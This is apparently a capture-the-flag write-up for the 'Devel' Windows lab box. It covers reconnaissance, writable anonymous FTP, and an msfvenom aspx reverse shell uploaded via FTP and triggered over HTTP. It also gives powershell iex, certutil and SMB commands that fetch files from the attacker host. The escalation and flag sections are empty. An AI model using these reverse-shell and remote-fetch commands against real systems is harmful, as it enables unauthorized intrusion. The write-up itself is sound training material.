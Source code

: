 ```yaml
---
layout: post
title: Devel
tags: [OSCP, writeup]
description: "Devel write-up"
---
```


![Devel logo](/assets/imgs/devel/devel.png)

### This is an easy windows box

## Tools used

------

- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA devel 10.10.10.5 -v

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Here’s what nmap teaches us :

- port 21 (FTP) - with anonyous login and 2 files / 1 directorie
- port 80 (HTTP) - IIS 7.5

First I go to the website :

![Website IIS](/assets/imgs/devel/website_IIS.PNG)

This is a default IIS7 installation. Looking at the image, I see that it's called "welcome.png", the same name as the one on the FTP, weird. Let's see what I can do with the FTP.

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:liodeus): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

To login I used the following credentials "anonymous:Anything" and I have the right to list files/directories, nice, can I write also ?

First I created a html test file :

```bash
echo "<h1>test</h1>" > test.html
```

Then over the ftp I used the command "put <file>" to upload my newly created file.

```bash
ftp> put test.html
local: test.html remote: test.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
15 bytes sent in 0.00 secs (36.6211 kB/s)
```

 It seems to work ! Let's go see if I can view it.

![Website IIS](/assets/imgs/devel/test_html.PNG)

I can upload files as I want, nice ! So now let's upload a reverse shell !

## Exploit

------

For a reverse shell I used msfvenom and "aspx" extension because it's IIS.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f aspx > shell.aspx
```

Upload the reverse shell :

```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2746 bytes sent in 0.00 secs (6.9280 MB/s)
```

Start the nc listener :

```bash
nc -lvp 1234
```

Then go see the page where the shell is upload :

```bash
curl http://10.10.10.5/shell.aspx
```

And I have a connection : 

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.5: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49164
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

I'm not "nt authority\system" (root on windows), I have the same rights as the web server, let's escalate !

Let's do some Windows reconnaissance, for that I used something called "winPEAS" [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). So let's upload it to the box :

I'll show different method to upload a file :

Start a HTTP server with python :

```bash
python -m SimpleHTTPServer
```

Then download the file usng powershell :

```bash
powershell iex (New-Object Net.WebClient).DownloadString("http://10.10.14.4:8000/winPEASany.exe")
```

Or with certutil.exe

```bash
certutil.exe -urlcache -split -f http://10.10.14.4:8000/winPEASany.exe
```

You can do it with smbserver from impacket :

```bash
sudo smbserver.py liodeus ./
[sudo] password for liodeus: 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then copy the file that you need :

```python
c:\Windows\Temp>copy \\10.10.14.4\liodeus\winPEASany.exe .
copy \\10.10.14.4\liodeus\winPEASany.exe .
        1 file(s) copied.
```



## Flags

------

### User.txt

```bash

```

### Root.txt

```bash

```